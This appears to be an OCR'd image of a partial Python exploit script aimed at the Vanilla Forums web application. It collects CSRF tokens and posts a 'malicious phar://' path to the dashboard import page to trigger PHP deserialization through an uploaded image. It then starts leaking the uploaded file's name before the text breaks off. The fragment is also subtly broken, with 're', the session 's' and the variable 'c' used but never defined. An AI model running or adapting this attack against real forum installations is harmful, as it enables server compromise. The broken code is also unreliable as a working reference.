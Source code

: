 ```python
import string
import random
import urllib2
import requests

def get_csrf(t, c):
    """
    Gets the csrf for any page thats logged in.
    """
    r = s.get("%s/index.php" % t)
    match = re.search("TransientKey\":\"(.*)\",\"W", r.text)
    if match:
        Vanilla_tk = r.headers['Set-Cookie']
        csrf = match.group(1)
        if Vanilla_tk.split("=")[1].startswith(csrf):
            return Vanilla_tk

def get_csrf_login(t):
    """
    Gets the CSRF cookie for the login process
    """
    r = requests.get("%s/index.php?p=/entry/signin" % t)
    match = re.search("TransientKey\":\"(.*)\",\"W", r.text)
    if match:
        Vanilla_tk = r.headers['Set-Cookie']
        csrf = match.group(1)
        if Vanilla_tk.split("=")[1].startswith(csrf):
            return Vanilla_tk

def extract_csrf(csrf):
    """
    Extracts the csrf token from the cookie
    """
    token = urllib2.unquote(csrf).decode('utf8')
    m = re.search("Vanilla-tk=(.*)\:\d{1,2}:", token)
    if m:
        k = m.group(1)
        c["Vanilla-tk"] = token.split("=")[1]
        return k, c

def we_can_trigger_unserialize(t, csrf):
    """
    This is our malicious phar:// and it can be in a share if we are targeting windows.
    Change the path if you need to.
    """
    k, c = extract_csrf(csrf)
    p = {
        "TransientKey": k,
        "PathSelect": "phar:///var/www/html/uploads/%s.jpg" % leaked,    # This is where we do the injection. This trick is quite old actually.
    }
    r = s.post("%s/index.php?p=/dashboard/import" % t, data=p)
    if r.status_code == 200 and "Email is required" in r.text:
        return True
    return False


def we_can_leak_phar_name(t, csrf):
    """
    This function leaks the filename of the image. We use the General category
    because its default id is 1.
    """
    global leaked
```